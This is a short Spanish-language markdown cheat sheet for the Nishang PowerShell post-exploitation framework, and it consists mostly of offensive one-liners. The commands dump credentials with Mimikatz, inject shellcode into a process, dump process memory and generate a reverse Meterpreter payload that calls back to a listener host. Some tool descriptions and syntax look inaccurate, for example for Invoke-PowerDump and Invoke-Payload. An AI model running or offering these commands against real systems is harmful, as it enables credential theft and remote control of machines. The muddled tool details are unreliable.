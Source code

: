 ### **Frameworks/Nishang/nishang.md**

# Nishang

## Descripción

`Nishang` es un framework de scripts de PowerShell diseñados para pruebas de penetración y tareas de post-explotación. Incluye una variedad de scripts para explotación, generación de payloads y evasión de detección.

## Uso

```powershell
Import-Module Nishang.psm1
```

### Scripts principales

- `Invoke-Mimikatz`: Extrae credenciales desde la memoria.
- `Invoke-Shellcode`: Inyecta y ejecuta shellcode en procesos.
- `Invoke-PowerDump`: Dumba la memoria de procesos específicos.
- `Invoke-Payload`: Genera payloads personalizados.

## Ejemplos

- **Extraer credenciales con Mimikatz:**
  
  ```powershell
  Invoke-Mimikatz -DumpCreds
  ```

- **Inyectar shellcode en un proceso:**
  
  ```powershell
  Invoke-Shellcode -Shellcode <hex_shellcode> -ProcessName notepad
  ```

- **Generar un payload inverso:**
  
  ```powershell
  Invoke-Payload -Payload windows/meterpreter/reverse_tcp -Lhost 192.168.1.100 -Lport 4444
  ```

- **Dumpear memoria de un proceso:**
  
  ```powershell
  Invoke-PowerDump -ProcessName explorer
  ```

